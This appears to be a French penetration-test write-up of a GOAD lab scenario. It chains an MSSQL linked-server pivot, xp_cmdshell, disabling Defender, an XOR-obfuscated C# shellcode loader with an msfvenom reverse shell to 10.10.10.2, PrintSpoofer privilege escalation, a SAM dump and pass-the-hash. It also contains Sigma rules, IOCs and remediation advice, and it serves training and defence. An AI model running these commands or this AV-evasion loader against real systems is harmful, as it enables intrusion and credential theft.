



# SC-AD-006 — MSSQL Pivot

## Classification

| Champ | Valeur |
|-------|--------|
| **Code scénario** | SC-AD-006 |
| **Nom** | MSSQL Pivot — Linked Servers, xp_cmdshell, Privesc SYSTEM |
| **Cible** | CASTELBLACK (192.168.10.22) → BRAAVOS (192.168.10.23) |
| **VLAN** | 10 — AD Lab (192.168.10.0/24) |
| **Sévérité** | 🔴 Critique |
| **CVSS 3.1** | 9.0 (AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H) |
| **CWE** | CWE-250 (Execution with Unnecessary Privileges), CWE-78 (OS Command Injection) |
| **MITRE ATT&CK** | T1210 (Exploitation of Remote Services), T1505.001 (SQL Stored Procedures), T1548.002 (Abuse Elevation Control Mechanism) |
| **Mayfly Reference** | Part 7 — MSSQL / Part 8 — Privilege Escalation |
| **Date** | 27 février 2026 |
| **Auteur** | hik3nR00t |

---

## Résumé exécutif

### Pour un recruteur

Ce test démontre comment un attaquant disposant de credentials valides peut pivoter via des **serveurs MSSQL liés inter-domaines** pour obtenir une exécution de commandes OS sur une machine distante, puis escalader vers **NT AUTHORITY\SYSTEM** via une vulnérabilité de privilege impersonation. La chaîne complète part d'un compte utilisateur NORTH (jon.snow) et aboutit à SYSTEM sur BRAAVOS (domaine ESSOS) sans jamais toucher directement ce domaine. Cette technique illustre la dangerosité des **linked servers MSSQL cross-domain** avec des mappings de comptes privilégiés.

### Pour un auditeur ISO 27001 / NIS2

Ce scénario illustre une chaîne de risques qui dépasse le seul périmètre technique MSSQL :

- **Mauvaise segmentation des domaines et des responsabilités** : un compte utilisateur du domaine NORTH permet, via des linked servers mal configurés, d'atteindre directement un serveur SQL critique du domaine ESSOS, en contournant les frontières logiques entre environnements.
- **Abus de privilèges sur les comptes de service** : le mapping d'un compte de domaine vers `sa` sur un linked server et l'attribution de `SeImpersonatePrivilege` à un compte de service MSSQL vont à l'encontre du principe de moindre privilège (A.9.2 Gestion des droits d'accès utilisateurs).
- **Absence de gouvernance sur les flux inter-applicatifs** : les connexions inter-domaines MSSQL ne sont ni inventoriées, ni auditées. Aucune politique formelle ne définit qui peut créer / modifier des linked servers et avec quels niveaux de privilèges.
- **Défaut de supervision des activités à fort impact** : l'usage de `xp_cmdshell`, la désactivation de Defender, l'exécution d'outils de privesc et l'export des ruches SAM ne déclenchent pas d'alertes corrélées, alors qu'il s'agit d'actions typiques d'un attaquant.

Dans le cadre NIS2, ce type de pivot MSSQL entre domaines est critique : il remet en cause le **confinement des incidents** et augmente fortement le risque d'attaque en chaîne. L'organisation doit traiter les bases SQL inter-domaines comme des éléments d'infrastructure essentiels, avec des exigences renforcées en termes d'inventaire, de durcissement, de supervision et de tests réguliers (red team / purple team).

### Pour un RSSI

Impact : compromission complète de BRAAVOS (NT AUTHORITY\SYSTEM), extraction du SAM local (hash Administrator), accès MSSQL sysadmin cross-domain. La chaîne exploite trois misconfigurations cumulatives : linked server avec mapping privilégié, xp_cmdshell activable par sysadmin, et SeImpersonatePrivilege sur le compte de service. Coût de remédiation : audit et suppression des linked servers non nécessaires, rotation des comptes de service MSSQL, déploiement de gMSA.

---

## Diagramme réseau réel (IPs / Services)



---

## Kill Chain



---

## Scope & méthodologie

- **Périmètre** : CASTELBLACK (192.168.10.22), BRAAVOS (192.168.10.23)
- **Prérequis** : jon.snow:iknownothing (SC-AD-002 — Kerberoasting)
- **Approche** : Exploitation misconfigurations MSSQL — pas d'exploit CVE
- **Outils** : impacket-mssqlclient, netexec, PrintSpoofer64, nc
- **Référentiel** : MITRE ATT&CK Enterprise, CRTP/CRTO methodology

---

## Phase 1 — Accès MSSQL CASTELBLACK

### Connexion initiale

```bash
impacket-mssqlclient north.sevenkingdoms.local/jon.snow:iknownothing@192.168.10.22 \
  -windows-auth
```

**Résultat :**
```
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] INFO(CASTELBLACK\SQLEXPRESS): Line 1: Changed database context to 'master'.
SQL (NORTH\jon.snow  guest@master)>
```

jon.snow connecté en tant que **guest** — pas sysadmin directement.

### Énumération des logins et permissions

```sql
SELECT name, type_desc, is_disabled FROM sys.server_principals WHERE type IN ('S','U','G');
```

**Logins identifiés :**
```
sa                           SQL_LOGIN    0
NORTH\jon.snow               WINDOWS_LOGIN 0
BUILTIN\Users                WINDOWS_GROUP 0
```

### Impersonation SA — Escalade sysadmin

```sql
-- Vérifier qui peut être impersoné
SELECT distinct b.name FROM sys.database_permissions a
  INNER JOIN sys.database_principals b ON a.grantor_principal_id = b.principal_id
  WHERE a.permission_name = 'IMPERSONATE';

-- Impersonation
EXECUTE AS LOGIN = 'sa';
SELECT SYSTEM_USER, IS_SRVROLEMEMBER('sysadmin');
```

**Résultat :**
```
SYSTEM_USER : sa
sysadmin    : 1  ✅
```

jon.snow → sa (sysadmin) via impersonation.

---

## Phase 2 — Découverte du Linked Server

### Énumération des linked servers

```sql
EXEC sp_linkedservers;
EXEC sp_helplinkedsrvlogin;
```

**Résultat :**
```
Linked Server  : BRAAVOS
Data Source    : braavos.essos.local
Provider       : SQLNCLI

Login mappings :
  Local Login     Remote Login  Uses Self  
  NULL            NULL          1          (Is Self Mapping)
  NORTH\jon.snow  sa            0          ⚠️ jon.snow → sa BRAAVOS
```

**Point critique :** jon.snow (domaine NORTH) est automatiquement mappé sur **sa** (sysadmin) du serveur BRAAVOS (domaine ESSOS). Cross-domain privilege escalation sans credential ESSOS.

### Validation du pivot cross-domain

```sql
EXEC ('SELECT SYSTEM_USER') AT BRAAVOS;
```

**Résultat :**
```
sa  ✅
```

jon.snow NORTH = sa ESSOS via linked server.

---

## Phase 3 — RCE via xp_cmdshell sur BRAAVOS

### Activation xp_cmdshell via linked server

```sql
EXEC ('EXEC sp_configure ''show advanced options'', 1; RECONFIGURE;') AT BRAAVOS;
EXEC ('EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE;') AT BRAAVOS;
```

### Vérification du contexte OS

```sql
EXEC ('EXEC xp_cmdshell ''whoami''') AT BRAAVOS;
```

**Résultat :**
```
essos\sql_svc
```

xp_cmdshell tourne sous le compte de service **essos\sql_svc**.

### Vérification des privilèges

```sql
EXEC ('EXEC xp_cmdshell ''whoami /priv''') AT BRAAVOS;
```

**Résultat critique :**
```
SeImpersonatePrivilege    Impersonate a client after authentication    Enabled ⚠️
```

**SeImpersonatePrivilege activé** → Potato Attack applicable → escalade SYSTEM garantie.

---

## Phase 4 — Evasion Windows Defender

### Détection Defender actif

```sql
EXEC ('EXEC xp_cmdshell ''powershell -c "Get-MpComputerStatus | Select RealTimeProtectionEnabled"''') AT BRAAVOS;
```

**Résultat :**
```
RealTimeProtectionEnabled : True
```

Windows Defender actif avec signatures à jour (27/02/2026) — payloads msfvenom bruts supprimés immédiatement.

### Désactivation via khal.drogo (admin local BRAAVOS)

```bash
evil-winrm -i 192.168.10.23 -u khal.drogo -p 'Password123!'
```

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -DisableBehaviorMonitoring $true
```

**Vérification :**
```
RealTimeProtectionEnabled  : False ✅
BehaviorMonitorEnabled     : False ✅
```

**Note OPSEC :** Désactiver Defender = action bruyante (Event ID 5001). Dans un engagement réel, préférer un payload custom (Rust/C, direct syscalls) ou un C2 avec implant signé. GOAD = lab sans SOC actif → acceptable pour validation technique.

---

## Phase 5 — Reverse Shell BRAAVOS

### Génération payload — loader C# XOR custom

Payload msfvenom brut détecté → loader custom XOR :

```bash
# Shellcode brut
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.2 LPORT=4444 -f raw -o /tmp/shell.bin

# Chiffrement XOR key=0x42
python3 -c "
key = 0x42
with open('/tmp/shell.bin','rb') as f:
    data = f.read()
xored = bytes([b ^ key for b in data])
cs_arr = ','.join([f'0x{b:02x}' for b in xored])
print(cs_arr)
" > /tmp/shellcode_xored.txt
```

**Loader C# — allocation RW puis RX (évite signature RWX direct) :**

```csharp
using System;
using System.Runtime.InteropServices;

class S {
    [DllImport("kernel32")] static extern IntPtr VirtualAlloc(IntPtr a, uint s, uint t, uint p);
    [DllImport("kernel32")] static extern bool VirtualProtect(IntPtr a, uint s, uint p, out uint o);
    [DllImport("kernel32")] static extern IntPtr CreateThread(IntPtr a, uint s, IntPtr f, IntPtr p, uint c, IntPtr i);
    [DllImport("kernel32")] static extern uint WaitForSingleObject(IntPtr h, uint ms);

    static void Main() {
        byte[] b = new byte[] { /* shellcode XOR */ };
        byte k = 0x42;
        for(int i=0;i<b.Length;i++) b[i]^=k;
        // RW d'abord → RX après copy (moins détecté que RWX direct)
        IntPtr m = VirtualAlloc(IntPtr.Zero,(uint)b.Length,0x3000,0x04);
        Marshal.Copy(b,0,m,b.Length);
        uint old;
        VirtualProtect(m,(uint)b.Length,0x20,out old);
        IntPtr t = CreateThread(IntPtr.Zero,0,m,IntPtr.Zero,0,IntPtr.Zero);
        WaitForSingleObject(t,0xFFFFFFFF);
    }
}
```

```bash
# Compilation
mcs /tmp/loader2.cs -out:/tmp/loader2.exe -platform:x64
```

### Upload et exécution

```bash
# HTTP server Kali
cd /tmp && python3 -m http.server 8000

# Listener
nc -nlvp 4444
```

```sql
-- Upload via certutil (base64 encode URL, port 8000)
EXEC ('EXEC xp_cmdshell ''certutil -urlcache -split -f http://10.10.10.2:8000/loader2.exe C:\Users\Public\loader2.exe''') AT BRAAVOS;

-- Exécution
EXEC ('EXEC xp_cmdshell ''cmd /c start /b C:\Users\Public\loader2.exe''') AT BRAAVOS;
```

**Résultat :**
```
connect to [10.10.10.2] from (UNKNOWN) [192.168.10.23] 50xxx
Microsoft Windows [Version 10.0.14393]
C:\Windows\system32> whoami
essos\sql_svc
```

Shell CMD interactif obtenu depuis BRAAVOS.

**Chemin complet validé :**
```
jon.snow (NORTH) → MSSQL CASTELBLACK → linked server BRAAVOS (mapping sa)
→ xp_cmdshell → loader2.exe → reverse shell Kali 10.10.10.2:4444
```

---

## Phase 6 — Privesc SeImpersonatePrivilege → SYSTEM

### Principe

SeImpersonatePrivilege sur un compte de service = **Potato Attack** applicable. PrintSpoofer exploite le service Spooler via named pipe impersonation pour obtenir un token SYSTEM.

### GodPotato — Échec Server 2016

```cmd
C:\Users\Public\gp.exe -cmd "C:\Users\Public\s.exe"
```

**Erreur :**
```
[!] UnmarshalObject: 0x80070776
[!] Failed to impersonate security context token
```

GodPotato incompatible avec Windows Server 2016 Build 14393 — problème DCOM.

### PrintSpoofer — Succès

```bash
# Download PrintSpoofer64
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe -O /tmp/ps64.exe
```

```sql
EXEC ('EXEC xp_cmdshell ''certutil -urlcache -split -f http://10.10.10.2:8000/ps64.exe C:\Users\Public\ps64.exe''') AT BRAAVOS;
```

```cmd
C:\Users\Public\ps64.exe -c "C:\Users\Public\s.exe"
```

**Résultat :**
```
nt authority\system  ✅
SID : S-1-5-18
Mandatory Label\System Mandatory Level
Tous privilèges Enabled (SeDebugPrivilege, SeTcbPrivilege, SeBackupPrivilege...)
```

**Leçon :** Server 2016 Build 14393 → PrintSpoofer ou JuicyPotato. GodPotato = Server 2019+.

---

## Phase 7 — SAM Dump & Post-Exploitation

### Extraction des ruches registry

```cmd
reg save HKLM\SAM C:\Users\Public\sam.bak
reg save HKLM\SYSTEM C:\Users\Public\sys.bak
```

### Exfiltration via SMB

```bash
# Kali — SMB server
impacket-smbserver share /tmp -smb2support -username hiken -password hiken123
```

```cmd
net use \\10.10.10.2\share /user:hiken hiken123
copy C:\Users\Public\sam.bak \\10.10.10.2\share\sam.bak
copy C:\Users\Public\sys.bak \\10.10.10.2\share\sys.bak
```

**Note :** nc corrompt les fichiers binaires lors du transfert → toujours utiliser SMB pour les ruches registry.

### Dump local

```bash
impacket-secretsdump -sam /tmp/sam.bak -system /tmp/sys.bak LOCAL
```

**Résultat :**
```
[*] Target system bootKey: 0x94ac1efc041cd5b32d8c9665a6465d79
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator  :500: aad3b435b51404eeaad3b435b51404ee:ba5fa75e6a4c5da5ff2d682a94793abb
vagrant        :1000: aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b
cloudbase-init :1001: aad3b435b51404eeaad3b435b51404ee:0c6106769acff6c33342ba32081345b8
```

### Pass-The-Hash — Test de réutilisation

```bash
netexec smb 192.168.10.0/24 -u Administrator -H ba5fa75e6a4c5da5ff2d682a94793abb --local-auth
```

**Résultat :**
```
BRAAVOS      (192.168.10.23) → Pwn3d! ✅ (source du hash)
MEEREEN      (192.168.10.12) → STATUS_LOGON_FAILURE ❌
CASTELBLACK  (192.168.10.22) → STATUS_LOGON_FAILURE ❌
KINGSLANDING (192.168.10.10) → STATUS_LOGON_FAILURE ❌
WINTERFELL   (192.168.10.11) → STATUS_LOGON_FAILURE ❌
```

Hash admin local non partagé — pas de réutilisation entre machines. Résultat attendu dans un lab bien segmenté.

---

## Bilan credentials — Nouveaux comptes

| Utilisateur | Hash NTLM | Machine | Source |
|-------------|-----------|---------|--------|
| Administrator (local) | ba5fa75e6a4c5da5ff2d682a94793abb | BRAAVOS | SAM dump |
| vagrant (local) | e02bc503339d51f71d913c245d35b50b | BRAAVOS | SAM dump |
| cloudbase-init | 0c6106769acff6c33342ba32081345b8 | BRAAVOS | SAM dump |

---

## Impact métier — MediaTech Groupe SA

### Synthèse
En rebondissant via des **serveurs liés MSSQL** cross-domaine (impersonation `sa` → `xp_cmdshell` → SeImpersonate → PrintSpoofer), l'attaquant obtient **SYSTEM sur deux serveurs de production** (bases MSSQL). On reste au niveau serveur — **pas encore de dominance domaine** — mais ces serveurs portent des briques applicatives de la chaîne éditoriale et/ou métier.

### Gravité : 🟠 ÉLEVÉ *(2 serveurs de prod en SYSTEM ; tremplin vers le domaine, mais pas encore atteint)*

### Impact chiffré

| Poste | Estimation | Hypothèse |
|---|---|---|
| Perturbation applicative / éditoriale | 150 k€ – 350 k€ | Si ces bases MSSQL alimentent le CMS/outils métier : 1-2 jours de production dégradée. |
| Exposition RGPD (Art. 32) | 150 k€ – 800 k€ | Si une des bases contient des données abonnés/RH. Amende réaliste < plafond. |
| Réponse à incident | 80 k€ – 180 k€ | Nettoyage SYSTEM sur 2 serveurs, revue des linked servers, durcissement `xp_cmdshell`/comptes SQL. |
| **Total réaliste** | **~380 k€ – 1,3 M€** | Bascule en **CRITIQUE** si le pivot est enchaîné vers la dominance domaine. |

> **Réalité rédaction** : les serveurs SQL « historiques » avec `xp_cmdshell` activé et des linked servers en confiance mutuelle sont typiques d'un SI qui a grossi sur 20 ans. Personne ne les a jamais durcis parce que « ça marche ».

### Réglementaire
- **RGPD Art. 32** — si données personnelles sur les bases.
- **NIS2 Art. 21** — sécurité des systèmes de production.
- **ISO 27001 A.8.2** (accès privilégiés), **A.8.9** (gestion des configurations — `xp_cmdshell`).

### Décision COMEX
- **Désactiver `xp_cmdshell`** et **auditer tous les linked servers** MSSQL (relations de confiance croisées) — arbitrage DSI/DBA sous 1 semaine.
- Décider du déploiement **LAPS** + comptes SQL à moindre privilège (fin des comptes de service sysadmin partagés).

## Analyse des risques

### Tableau CVSS

| Vecteur | Valeur | Justification |
|---------|--------|---------------|
| Attack Vector | Network (N) | MSSQL accessible réseau |
| Attack Complexity | Low (L) | Linked server misconfiguration triviale |
| Privileges Required | Low (L) | Un credential domaine suffit |
| User Interaction | None (N) | Entièrement automatisé |
| Scope | Changed (C) | Cross-domain NORTH → ESSOS |
| Confidentiality | High (H) | SAM dump, hash Administrator |
| Integrity | High (H) | RCE SYSTEM sur BRAAVOS |
| Availability | High (H) | Contrôle total machine |

**Score CVSS 3.1 : 9.0 (Critique)**

---

## Détection & Blue Team

### Event IDs Windows à surveiller

| Event ID | Source | Description | Seuil alerte |
|----------|--------|-------------|-------------|
| 4625 | Security | Logon failure MSSQL | > 5 en 1 min |
| 4688 | Security | Process creation xp_cmdshell | cmd.exe parent = sqlservr.exe |
| 7045 | System | Service installé (PrintSpoofer) | Immédiat |
| 5001 | Windows Defender | Protection temps réel désactivée | Immédiat |
| 4648 | Security | Logon avec credentials explicites | SMB lateral |

### Règles Sigma

```yaml
title: MSSQL xp_cmdshell Execution
id: sc-ad-006-001
status: experimental
description: Détecte l'exécution de commandes OS via xp_cmdshell MSSQL
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4688
        ParentProcessName|endswith: 'sqlservr.exe'
        NewProcessName|endswith: 'cmd.exe'
    condition: selection
level: critical
tags:
    - attack.execution
    - attack.t1505.001
```

```yaml
title: SeImpersonatePrivilege Potato Attack
id: sc-ad-006-002
status: experimental
description: Détecte PrintSpoofer ou outils Potato via création de named pipe
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4688
        NewProcessName|contains:
            - 'PrintSpoofer'
            - 'GodPotato'
            - 'JuicyPotato'
    condition: selection
level: critical
tags:
    - attack.privilege_escalation
    - attack.t1548
```

```yaml
title: SAM Registry Hive Export
id: sc-ad-006-003
status: experimental
description: Détecte l'export des ruches SAM/SYSTEM via reg save
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4688
        CommandLine|contains|all:
            - 'reg'
            - 'save'
            - 'SAM'
    condition: selection
level: high
tags:
    - attack.credential_access
    - attack.t1003.002
```

### Indicateurs de compromission (IOC)

| Type | Valeur | Description |
|------|--------|-------------|
| **Process** | cmd.exe parent=sqlservr.exe | xp_cmdshell actif |
| **File** | C:\Users\Public\*.exe | Outils déposés |
| **Network** | 192.168.10.23 → 10.10.10.2:4444 | Reverse shell |
| **Registry** | reg save HKLM\SAM | SAM dump |
| **Event 5001** | Defender désactivé | AV tampering |
| **Named pipe** | \pipe\epmapper | PrintSpoofer |

---

## Remédiation — Secure by Design

### Immédiat (24h)

1. **Supprimer ou restreindre les linked servers** non nécessaires :

```sql
-- Identifier tous les linked servers
EXEC sp_linkedservers;

-- Supprimer le linked server vulnérable
EXEC sp_dropserver 'BRAAVOS', 'droplogins';
```

2. **Réviser les mappings de linked servers** — jamais mapper un compte domaine sur sa :

```sql
-- Auditer les mappings
SELECT s.name, l.remote_name, l.uses_self_credential
FROM sys.servers s
JOIN sys.linked_logins l ON s.server_id = l.server_id;
```

3. **Désactiver xp_cmdshell** en production :

```sql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 0; RECONFIGURE;
```

4. **Retirer SeImpersonatePrivilege** des comptes de service MSSQL :

```powershell
# Utiliser gMSA — rotation automatique, pas de SeImpersonatePrivilege
New-ADServiceAccount -Name "mssql_gmsa" -DNSHostName "braavos.essos.local"
```

### Court terme (1 semaine)

5. **Comptes de service dédiés** avec mots de passe forts (25+ chars) ou gMSA.

6. **Auditer SeImpersonatePrivilege** sur tous les comptes de service :

```powershell
# Identifier comptes avec SeImpersonatePrivilege
Get-ADUser -Filter * -Properties ServicePrincipalNames |
  Where-Object {$_.ServicePrincipalNames -ne $null}
```

7. **Activer SQL Server Audit** pour logger les activités xp_cmdshell et sp_configure.

### Moyen terme (1 mois)

8. **Segmentation réseau** — isoler MSSQL sur VLAN dédié, pas accessible depuis VLAN utilisateurs.

9. **Principle of Least Privilege** — comptes MSSQL sans droits admin OS.

10. **Windows Defender for SQL** — détection comportementale des commandes MSSQL suspectes.

---

## Architecture cible sécurisée



---

## Références

| Référence | Lien |
|-----------|------|
| Mayfly277 GOAD Part 7 — MSSQL | https://mayfly277.github.io/posts/GOADv2-pwning-part7/ |
| Mayfly277 GOAD Part 8 — Privesc | https://mayfly277.github.io/posts/GOADv2-pwning-part8/ |
| MITRE T1505.001 — SQL Stored Procedures | https://attack.mitre.org/techniques/T1505/001/ |
| MITRE T1548 — Abuse Elevation Control | https://attack.mitre.org/techniques/T1548/ |
| MITRE T1003.002 — SAM Dump | https://attack.mitre.org/techniques/T1003/002/ |
| PrintSpoofer — itm4n | https://github.com/itm4n/PrintSpoofer |
| GodPotato — BeichenDream | https://github.com/BeichenDream/GodPotato |
| PowerUpSQL — Linked Servers | https://github.com/NetSPI/PowerUpSQL |
| impacket-mssqlclient | https://github.com/fortra/impacket |

---

*HikenRoot Forge — SC-AD-006 — hik3nR00t — Février 2026*
